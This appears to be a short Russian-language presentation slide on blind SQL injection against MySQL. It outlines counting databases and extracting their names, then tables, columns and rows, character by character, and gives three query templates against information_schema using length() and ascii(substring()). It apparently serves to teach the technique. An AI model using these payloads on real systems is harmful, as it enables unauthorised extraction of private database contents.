

# Blind SQLi exploit MySQL
Считаем количество баз данных, получаем длину названия каждой базы данных, получаем название базы данных

Аналогично получаем названия и количество таблиц, столбцов и строк

     select count(schema_name) from information_schema.schemata
     select length(schema_name) from information_schema.schemata limit %d,1" % x
     ascii(substring((select schema_name from information_schema.schemata limit %d,1),%d,1))" % (x,y)